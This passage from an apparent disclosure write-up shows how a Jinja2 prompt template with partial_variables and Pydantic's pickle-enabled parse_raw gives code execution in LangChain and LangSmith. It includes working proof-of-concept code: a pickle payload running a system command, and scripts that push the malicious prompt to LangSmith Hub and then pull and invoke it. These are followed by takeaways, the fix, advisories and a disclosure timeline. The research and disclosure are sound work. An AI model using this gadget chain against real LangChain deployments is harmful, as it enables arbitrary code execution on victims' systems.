`partial_variables` takes variables used in a template, and it seems like instead of passing the variables to `input` I should be able to specify them directly in the manifest. This is exactly what I was looking for. Another important detail: `partial_variables` allows bypassing the limitation on serialisable objects passed to `input`, since `partial_variables` is loaded as part of the manifest, which doesn't have the validation on the class names. In other words, I could completely avoid going into the implementation details of LangSmith Playground and instead use `partial_variables` to access an object during template rendering. Meanwhile, I recreated the manifest from the request in Python code:


```python
from langchain_core.language_models import FakeListLLM
from langchain_core.messages import HumanMessage
from langchain_core.prompts.chat import ChatPromptTemplate, SystemMessagePromptTemplate, HumanMessagePromptTemplate
from langchain_core.prompts.prompt import PromptTemplate
from langchain_core.runnables import RunnableSequence

template = "{{msg.parse_raw(payload.encode().decode('unicode_escape').encode('latin1'),allow_pickle=True,proto='pickle')}}"
payload = "\\x80\\x04\\x95!\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x05posix\\x94\\x8c\\x06system\\x94\\x93\\x94\\x8c\\x06whoami\\x94\\x85\\x94R\\x94."
msg = HumanMessage("")

s = RunnableSequence(
    first=ChatPromptTemplate(
        messages=[
            SystemMessagePromptTemplate(
                prompt=PromptTemplate(
                    input_variables=[],
                    template_format="f-string",
                    template="You are a chatbot.",
                ),
            ),
            HumanMessagePromptTemplate(
                prompt=PromptTemplate(
                    input_variables=[],
                    template_format="jinja2",
                    template=template,
                    partial_variables={
                        "payload": payload,
                        "msg": msg,
                    },
                ),
            ),
        ],
    ),
    last=FakeListLLM(responses=[""]),
)
s.invoke({})
```


As you can see, the payload and object are passed directly to the `PromptTemplate`. When I ran it locally, I saw the desired result:

```
0xn3va
Traceback (most recent call last):
  ...
```

The next step was to [push a malicious request to LangSmith Hub using the SDK](https://docs.langchain.com/langsmith/manage-prompts-programmatically):


```python
from dotenv import load_dotenv
from langchain_core.messages import HumanMessage
from langchain_core.prompts.chat import ChatPromptTemplate, SystemMessagePromptTemplate, HumanMessagePromptTemplate
from langchain_core.prompts.prompt import PromptTemplate
from langsmith import Client

template = "{{msg.parse_raw(payload.encode().decode('unicode_escape').encode('latin1'),allow_pickle=True,proto='pickle')}}"
payload = "\\x80\\x04\\x95!\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x05posix\\x94\\x8c\\x06system\\x94\\x93\\x94\\x8c\\x06whoami\\x94\\x85\\x94R\\x94."
msg = HumanMessage("")

prompt = ChatPromptTemplate(
    messages=[
        SystemMessagePromptTemplate(
            prompt=PromptTemplate(
                input_variables=[],
                template_format="f-string",
                template="You are a chatbot.",
            ),
        ),
        HumanMessagePromptTemplate(
            prompt=PromptTemplate(
                input_variables=[],
                template_format="jinja2",
                template=template,
                partial_variables={
                    "payload": payload,
                    "msg": msg,
                },
            ),
        ),
    ],
)

# create .env file and add LANGSMITH_API_KEY there
load_dotenv(dotenv_path=".env")

client = Client(api_url="https://eu.api.smith.langchain.com", workspace_id="<workspace-id>")
url = client.push_prompt("test-prompt", object=prompt)
print(url)
```


Now we can pull the malicious prompt from LangSmith Hub and invoke it using the same SDK:

```python
from dotenv import load_dotenv
from langchain_core.language_models import FakeListLLM
from langsmith import Client

# create .env file and add LANGSMITH_API_KEY there
load_dotenv(dotenv_path=".env")

client = Client(api_url="https://eu.api.smith.langchain.com", workspace_id="7201d811-22bb-4ddf-8f1b-9e3ba2590bd9")
prompt = client.pull_prompt("test-prompt")
llm = FakeListLLM(responses=[""])
s = prompt | llm
s.invoke({})
```

As expected, the code was executed:

```
0xn3va
Traceback (most recent call last):
  ...
```

From an attacker's perspective, this means that access to a leaked LangSmith API key opens the possibility of executing arbitrary code within the victim's CI/CD or even production application.

## Takeaways

**Template formatters are more powerful than they appear**: Python's `f-string` and `mustache` formatters support advanced attribute access and element retrieval capabilities that go beyond simple variable substitution. These features can be chained to traverse object hierarchies, access global namespaces through `__globals__`, and retrieve sensitive data without requiring function calls. Don't underestimate the attack surface of seemingly simple string formatting.

**Jinja2 sandboxing isn't a silver bullet**: While Jinja2's `SandboxedEnvironment` blocks direct access to dangerous attributes and restricts certain operations, it only inspects what happens within the template execution context. Methods that internally perform unsafe operations can bypass sandbox restrictions. You don't always need a vulnerability in Jinja2 itself to escape the sandbox - look for gadgets in the application's object model that expose dangerous functionality through seemingly safe method calls.

**Serialisation + User Input = High-Risk Combination**: When applications deserialise user-controlled objects and pass them to template engines, the attack surface expands dramatically. Instead of being limited to built-in types, attackers gain access to custom classes with methods that may expose dangerous primitives. Always investigate what types of objects can be passed as template variables.

**Deprecated features are treasure troves**: Legacy and deprecated methods often contain security issues. Pydantic's `parse_raw` method with pickle support is a perfect example - it provides a direct path to arbitrary code execution despite being part of a well-maintained library. When hunting for gadgets, pay special attention to deprecated functionality that may have been overlooked in security audits.

## The fix

The initial fix was released by the LangChain team within just a few days. The open-source part of the fix affected `langchain_core`, restricting access to attributes (`.`) and indexing (`[]`) for the `f-string` and `mustache` formatters, and implementing a more restrictive Jinja2 sandbox that blocked access to all attributes and methods. These changes effectively prevented exploitation of the vulnerability, but concerns about deserialising arbitrary objects remained. A few weeks later, the team reverted the Jinja2 sandbox restrictions and added deserialisation hardening to `langchain_core`. The hardening introduced a list of allowed objects for deserialisation and blocked `jinja2` templates during deserialisation.

All the changes can be found in the following pull requests:
* https://github.com/langchain-ai/langchain/pull/34038 - adds hardening for template formatters in `langchain_core`.
* https://github.com/langchain-ai/langchain/pull/34072 - reverts Jinja2 sanbox restrictions in `langchain_core`.
* https://github.com/langchain-ai/langchain/pull/34455 - adds hardening for deserialisation in `langchain_core`.
* https://github.com/langchain-ai/langchainjs/pull/9707 - adds hardening for deserialisation in `@langchain/core`.

The LangChain issues three advisories in the `langchain` and `langchainjs` repositories:
* [GHSA-6qv9-48xg-fc7f](https://github.com/langchain-ai/langchain/security/advisories/GHSA-6qv9-48xg-fc7f)
* [GHSA-c67j-w6g6-q2cm](https://github.com/langchain-ai/langchain/security/advisories/GHSA-c67j-w6g6-q2cm)
* [GHSA-r399-636x-v7f6](https://github.com/langchain-ai/langchainjs/security/advisories/GHSA-r399-636x-v7f6)

## Disclosure timeline

* 16/11/25 - Initial report sent to the LangChain team.
* 17/11/25 - Initial response from the team.
* 19/11/25 - The advisory and patch have been released for the OSS part.
* 20/11/25 - Bounty awarded.
* 23/12/25 - The advisories and patches have been released for the OSS part.
